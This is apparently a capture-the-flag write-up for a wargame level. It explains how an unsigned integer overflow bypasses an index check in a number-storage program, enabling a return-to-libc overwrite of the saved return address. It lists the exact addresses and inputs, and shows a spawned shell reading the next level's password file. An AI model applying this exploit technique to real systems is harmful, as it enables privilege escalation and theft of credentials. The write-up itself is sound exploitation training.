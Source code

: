 # LEVEL 07

## EXPLANATIONS

### BINARY BEHAVIOR

- functions : store_number, read_number, main
- program asks for inputs in 3 flavors :

  - store : asks number and index
  - read : asks index and outputs number
  - quit => exits the program

- large number stores unsigned int max
  - numbers are considered unsigned int
- index greater that UINT max return error

### EXPLOIT STRATEGY

- return to libc with store function.
- write on main sEIP => 0xffffce7c
- start buf store : 0xffffccb4

  - 456 bytes between the two addresses
  - stores at index _ 4 => 114 _ 4 == 456
  - 114 is protected by % 3 protection on provided indexes
  - exploit with unsigned int overflow
    - 4294967295 / 4 == 1073741823
    - 4294967295 % 4 == 3
      - => (1073741823 + 114) \* 4 = 4294967292 + 456 = 4294967748
      - 4294967748 - 4294967295 (== overflow) = 452 (not 453 because 1st value of the overflow is 0)
        - this overflow is insufficient due to remainder of max unsigned division by 4
      - => (1073741823 + 115) \* 4 = 4294967292 + 460 = 4294967752
      - 4294967752 - 4294967295 (== overflow) = 456

- Find addresses of :

  - Index to overflow 114 : 1073741938
  - system : 0xf7e6aed0 : 4159090384
  - exit : 0xf7e5eb70 : 4159040368
  - "/bin/sh" : 0xf7f897ec : 4160264172

- overwrite sEIP

### RUN COMMAND

---

#### Welcome to wil's crappy number storage service!

```
Commands:
store - store a number into the data storage
read - read a number from the data storage
quit - exit the program
```

---

#### wil has reserved some storage :>

```
Input command: store
Number: 4159090384          <= address system
Index: 1073741938           <= overflow UINT -> 114
Completed store command successfully

Input command: store
Number: 4159040368          <= address of exit
Index: 115
Completed store command successfully

Input command: store
Number: 4160264172          <= address of "/bin/sh"
Index: 116
Completed store command successfully

Input command: quit


$ whoami
level08
$ cd ../level09
/bin/sh: 2: cd: can't cd to ../level09
$ cd ../level08
$ cat .pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
